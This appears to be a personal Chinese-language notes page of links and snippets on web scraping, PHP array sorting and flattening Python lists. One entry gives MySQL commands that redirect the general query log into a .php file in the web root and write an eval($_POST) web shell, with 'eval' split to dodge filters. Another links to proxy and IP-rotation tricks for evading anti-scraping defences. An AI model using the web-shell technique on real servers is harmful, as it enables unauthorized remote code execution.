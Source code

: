 [常见的网站服务器架构有哪些](https://www.zhihu.com/question/20657269/answer/101795180)
反反爬虫利器！教你怎么用代理，拨号换IP……https://zhuanlan.zhihu.com/p/26876834
爬虫比较https://github.com/lining0806/PythonSpiderNotes
抓取手机app的数据（摩拜单车https://zhuanlan.zhihu.com/p/26785815 http://link.zhihu.com/?target=https%3A//github.com/kimg1234/pachong/blob/master/mobai.py
php数组排序https://www.zhihu.com/question/59614878/answer/167121815
```js
uasort($arr, function($a, $b) {
	// 比较函数返回1表示交换顺序
	if($a['Order_info']['add_time'] == $b['Order_info']['add_time']) {
		return 0;
	} else {	
		// 大的交换到前面,所以是降序
		return ($a['Order_info']['add_time'] < $b['Order_info']['add_time']) ? 1 : -1;
		// 小的交换到前面,所以是升序
		return ($a['Order_info']['add_time'] > $b['Order_info']['add_time']) ? 1 : -1;
	}
});

作者：eechen
链接：https://www.zhihu.com/question/59614878/answer/167121815
来源：知乎
著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。
```
[低端姿势拿下某IDC公司主站php](https://zhuanlan.zhihu.com/p/26658739?group_id=842400839929847808)
借助的就是MySQL的general_log，MySQL中这个general_log是用于记录MySQL中所有执行过的SQL查询，他的记录方式可以是数据表，也可以是文件，并且文件路径也可以指定https://github.com/cw1997/MySQL-Monitor MySQL服务器执行SQL记录实时监控（WEB版本）
show global variables like '%general%';
set global general_log = on;
set global general_log_file = 'D://phpStudy//WWW//ThinkPHP//test.php';
select '<?php @ev（防和谐补丁）al($_POST[admin])?>';
[有哪些实用的计算机相关技能，可以在一天内学会？](https://zhuanlan.zhihu.com/p/26661971?group_id=842461525452136448)
[把嵌套的python list转成一个一维的python list](https://www.zhihu.com/question/27010691)
```js
>>> from compiler.ast import flatten
>>> flatten(a)
reduce(lambda x,y:x+y, a)
import itertools
a = [[1,2,3],[4,5,6], [7], [8,9]]
out = list(itertools.chain.from_iterable(a))
sum(a,[])
def fun(li,em=[]):  #优雅滴写法，包治各种嵌套
    for x in li:
        if type(x)!=list:
            em.append(x)
        else:
            fun(x)
    return em

最简单的方法，用 numpy.ravel()。

a = [[1,2,3], [5, 2, 8], [7,8,9]]

list(np.ravel(a))

得到： 

[1, 2, 3, 5, 2, 8, 7, 8, 9]
a= eval('['+str(a).replace(' ','').replace('[','').replace(']','')+']')
import operator
from functools import reduce
a = [[1,2,3], [4,5,6], [7,8,9]]
print(reduce(operator.add, a))
[item for sublist in list for item in sublist]
```